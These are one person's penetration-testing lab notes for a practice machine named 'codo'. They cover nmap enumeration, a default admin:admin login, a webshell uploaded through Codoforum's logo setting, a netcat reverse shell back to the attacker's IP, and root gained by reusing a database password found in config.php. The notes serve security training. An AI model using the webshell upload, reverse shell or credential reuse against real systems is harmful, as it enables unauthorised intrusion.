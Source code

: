### Enumeration
```
IP=192.168.158.23
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
	- Codoforum
### Foothold
- 80
	- ![[Pasted image 20240703081303.png]]
	- dirsearch -u http://$IP
		- `/admin  /cache /index.php`
	- /login
		- admin:admin  -  successful
	- /admin
		- login page
		- admin:admin
			- successful
		- codoforum V.5.1.105
			- searchsploit codoforum
				- CodoForum v5.1 - Remote Code Execution (RCE) 50978
				- Tried to use but something went wrong. 
				- Followed this: `admin panel > global settings > change forum logo > upload and access from http://192.168.158.23//sites/default/assets/img/attachments/[file.php])`
				- `http://192.168.158.23/sites/default/assets/img/attachments/webshell.php`
				- Now we have a webshell as www-data
				- `busybox nc 192.168.45.195 8000 -e /bin/bash`
				- Got RCE
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux codo 5.4.0-150-generic #167-Ubuntu SMP Mon May 15 17:35:05 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
	- getcap -r / 2>/dev/null
		- Nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
		- nothing
	- linpeas
		- possible exploits
			- pwnkit
				- did not work
			- setuid screen v4.5.0 LPE
		- users console
			- offsec
			- root
		- /var/www/html/sites/default/config.php
			- mysql - codo:FatPanda123
		- su offsec
			- FatPanda123  -  failed
		- sudo -l
			- FatPanda123
				- failed
			- admin
				- failed
		- su root
			- FatPanda123
			- Successful
		- mysql -u codo -p
			- FatPanda123
			- Successful
			- databases
				- codoforumdb
					- codo_users
				- information_schema
	- Writeable
		- find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
			- /run/screen
				- screen -v
					- 4.08
### Lessons Learned
- Try found passwords on all accounts with console